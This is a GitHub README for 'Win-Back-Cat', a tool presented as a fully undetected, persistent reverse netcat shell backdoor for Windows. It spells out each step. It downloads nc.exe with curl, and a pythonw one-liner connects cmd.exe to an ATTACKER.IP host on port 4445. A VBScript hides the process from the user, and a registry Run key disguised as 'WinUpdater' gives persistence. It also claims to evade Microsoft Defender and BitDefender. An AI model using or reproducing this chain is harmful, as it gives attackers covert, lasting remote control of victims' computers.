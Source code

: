 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Issue</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />
<br />

### Prerequisites:

<br />

- You need to be logged in as an `Administrator` in order to be able to create a TCP listener with NetCat.

#### Python:
- Python should be preinstalled on latest versions of Windows.
- You can check by running `python --version` on command prompt.
- If python is not installed, you will need to install it for this to work.
#### cURL:
- If you have version 1803 or later of Windows 10, cURL is installed by default.
- If you don't have cURL you will need to install it for this to work.
- Otherwise find an alternative way to fetch `nc.exe`

<br />
<br />

### Breakdown:

<br />

- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />

- `-e filename`: specify `filename` to exec after connect (use with caution). Connects STDIN and STDOUT to the specified file.

<br />

In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.

<br />

#### Pythonw - Undetected

<br />

- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden

<br />

`Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br />

#### Tested on (Feel free to add to this list with a request):

<br />

- OS:           Microsoft Windows 10 Pro 10.0.18363 N/A Build 18363
- Antivirus:    Microsoft Defender, BitDefender

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.
- Remember to edit `ATTACKER.IP` for the reverse shell to work.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)

